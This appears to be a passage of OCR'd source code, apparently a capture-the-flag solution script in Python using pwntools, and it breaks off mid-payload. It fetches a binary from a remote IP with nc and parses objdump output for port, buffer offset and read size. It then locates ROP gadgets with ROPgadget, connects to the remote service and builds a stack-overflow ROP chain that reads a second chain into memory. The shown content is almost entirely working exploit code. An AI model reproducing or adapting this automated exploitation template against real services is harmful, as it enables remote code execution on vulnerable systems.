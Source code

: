 ```python
    else:
        return None

def str_addr(s, f): # search string address in file
    result = list(f.search(s+"\x00"))
    if not len(result): # no result
        return None
    else:
        return result[0]

if __name__ == "__main__":

    while True:
        myexec("nc 52.20.10.244 8888 > asdf") # download binary
        
        resp = myexec("objdump -d ./asdf | grep \"htons\" -B 1") # get port number
        resp = resp.split("--\n")[2]
        port = resp[resp.index("0x"):resp.index(","):]
        port = int(port, 16)
        
        resp = myexec("objdump -d ./asdf | grep \"strlen\" -B 2") # get buffer offset
        resp = resp.split("lea    -")[1]
        offset = int(resp[:resp.index("(%rbp"):], 16)
        
        resp = myexec("objdump -d ./asdf | grep \"read\" -B 4") # read size
        resp = resp.split("mov")[1]
        resp = resp[resp.index("0x"):resp.index(","):]
        read = int(resp, 16)

        print "==================="
        log.success("port: "+str(port))
        log.success("offset: "+hex(offset))
        log.success("read: "+hex(read))
        
        if read < 0x80 or read < offset or offset-8 < 0x78: # exploitable or not
            continue

        r = remote(HOST, port)
        elf = ELF("./asdf")
        
        # use ROPgadget to find some useful address
        pop_rdi = int(myexec("ROPgadget --binary ./asdf | grep \"pop rdi\"").split(" ")[0], 16)
        pop_rsi_r15 = int(myexec("ROPgadget --binary ./asdf | grep \"pop rsi \"").split(" ")[0], 16)
        leave = int(myexec("ROPgadget --binary ./asdf | grep \"leave\"").split(" ")[0], 16)
        pop_rbp = int(myexec("ROPgadget --binary ./asdf | grep \": pop rbp ; ret$\"").split(" ")[0], 16)

        log.success("pop_rdi: "+hex(pop_rdi))
        log.success("pop_rsi_r15: "+hex(pop_rsi_r15))
        log.success("leave: "+hex(leave))
        log.success("pop_rbp: "+hex(pop_rbp))
        buf1 = 0x00602000 - 0x200
        buf2 = 0x00602000 - 0x300

        payload = "A"*(offset-8)
        payload += p32(6) # socket fd
        payload += p32(3)
        payload += "B"*8 # rbp
        payload += p64(pop_rdi) # return address
        payload += p64(6)
        payload += p64(pop_rsi_r15)
        payload += p64(buf1) # read the 2nd ROP chain to buffer1
```